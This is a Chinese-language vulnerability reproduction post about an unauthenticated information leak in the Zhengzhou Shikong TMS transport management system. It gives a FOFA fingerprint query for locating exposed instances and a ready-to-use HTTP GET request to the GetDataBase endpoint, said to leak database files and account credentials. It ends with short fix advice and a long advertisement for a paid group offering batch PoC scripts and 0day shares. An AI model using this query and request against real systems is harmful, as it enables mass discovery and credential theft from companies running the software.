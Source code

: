 #  「漏洞复现」郑州时空-TMS运输管理系统 GetDataBase 信息泄露漏洞   
冷漠安全  冷漠安全   2025-01-01 11:22  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0pFeDPJNnYaE7pYibBLQrUbLZwqelcotCqhYf0seBKfHroSUm8XuHyka5I3SmicWcJYUpZbFmxJCZ1Q/640?wx_fmt=gif&from=appmsg "")  
  
0x01 免责声明  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
产品介绍  
  
郑州时空-TMS运输管理系统是一款专为物流运输企业设计的综合性管理软件，旨在提高运输效率、降低运输成本，并实现供应链的协同运作。系统基于现代计算机技术和物流管理方法，结合了郑州时空公司的专业经验和技术优势，为物流运输企业提供了一套高效、智能的运输管理解决方案。该系统支持多网点、多机构、多功能作业，能够全面满足企业的运输管理需求。适用于各类物流运输企业，包括运输公司、各企业下面的运输队等，特别适用于需要高效管理运输过程、降低运输成本并提升供应链效率的企业。  
  
0x03  
  
漏洞威胁  
  
郑州时空-TMS运输管理系统 GetDataBase 接口存在信息泄露漏洞，未经身份验证攻击者可通过该漏洞读取系统内部数据库文件，泄露账号密码等重要凭证，导致网站处于极度不安全状态。  
  
0x04  
  
漏洞环境  
  
FOFA:  
   
```
body="/Images/ManLogin/name.png"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0rb9HwOCMlMl5lhJtc0ibZKfT8Zqh5lupiaeV5AibRpLVAhVyd6ucFz0tN6fCJ751bb4HcSLuHFbBmCg/640?wx_fmt=png&from=appmsg "")  
  
  
0x05  
  
漏洞复现  
  
PoC  
```
GET /ManLogin/GetDataBase HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0rb9HwOCMlMl5lhJtc0ibZKfxOMjAxPibrl4GP7vL5E1nDFjp3TicOQwEo3ozGTic3q6EmoG3gpoj4okA/640?wx_fmt=png&from=appmsg "")  
  
0x06  
  
批量脚本验证  
  
Nuclei验证脚本已发布  
  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0rb9HwOCMlMl5lhJtc0ibZKfp5ZptZxSCQsQmhakkB1ApuvF8jOKn0gptnTmcibmE9jEg8plszEiar6A/640?wx_fmt=png&from=appmsg "")  
  
  
0x07  
  
修复建议  
  
关闭互联网暴露面或接口设置访问权限  
  
升级至安全版本  
  
0x08  
  
加入我们  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全  
  
交个朋友，限时优惠券：加入立减25  
  
星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0rb9HwOCMlMl5lhJtc0ibZKfF8d1xpVqKYUrxaYYPgVBccmfZAwiaXGgXZCDjnWCQ6QNH5EWp1MKMtA/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0rb9HwOCMlMl5lhJtc0ibZKf7jM8NWrbg98Iq5fiaQrr6Tgt2hMdVc6Ejaf1c9A9ube7Im5el9jnvew/640?wx_fmt=gif&from=appmsg "")  
  
  

